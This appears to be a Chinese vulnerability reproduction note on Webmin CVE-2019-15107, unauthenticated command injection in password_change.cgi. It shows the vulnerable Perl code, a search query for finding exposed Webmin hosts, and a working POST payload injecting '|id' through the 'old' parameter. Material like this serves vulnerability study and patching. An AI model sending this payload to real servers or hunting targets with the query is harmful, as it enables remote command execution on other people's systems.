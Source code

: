 # Webmin password_change.cgi 远程命令执行漏洞 CVE-2019-15107

## 漏洞描述

Webmin是 一 个 用 于 管 理 类 Unix系 统 的 管 理 配 置 工 具 ， 具 有 Web页 面 。 在 其 找 回 密 码 页 面 中 ， 存 在 一 处 无 需 权 限 的 命 令 注 入 漏 洞 ， 通 过 这 个 漏 洞 攻 击 者 即 可 以 执 行 任 意 系 统 命 令 。 

## 漏洞影响

<a-checkbox checked>Webmin <= 1.920</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="webmin"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1661479903495-110cfdb8-0a65-4ffb-8779-62b388a34563.png)

漏洞的触发点为文件 password_change.cgi 

![img](../../../.vuepress/public/img/1661568713515-5009d2d4-80a9-49b0-ab9b-f098bff322c4.png)

其中接受的POST传参的几个参数为 `user pam expired old new1 new2`， 值得注意的参数为 old, 对应的代码片段存在漏洞

![img](../../../.vuepress/public/img/1661568802728-3a2a2afb-8b16-47f9-9fb1-e83c6854ee94.png)

```php
if ($wuser) {
	# Update Webmin user's password
	$enc = &acl::encrypt_password($in{'old'}, $wuser->{'pass'});
	$enc eq $wuser->{'pass'} || &pass_error($text{'password_eold'},qx/$in{'old'}/);
	$perr = &acl::check_password_restrictions($in{'user'}, $in{'new1'});
	$perr && &pass_error(&text('password_enewpass', $perr));
	$wuser->{'pass'} = &acl::encrypt_password($in{'new1'});
	$wuser->{'temppass'} = 0;
	&acl::modify_user($wuser->{'name'}, $wuser);
	&reload_miniserv();
	}
```

在 perl 中 `qx/id/`, 对应执行系统命令 id, 而可控的参数里 old 参数是可控的，导致命令执行 并通过 pass_error 回显至页面中， 验证POC

```php
POST /password_change.cgi

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```

![img](../../../.vuepress/public/img/1661480163002-a6dc7596-7d8a-4f8f-9b76-da1caa8b1b75.png)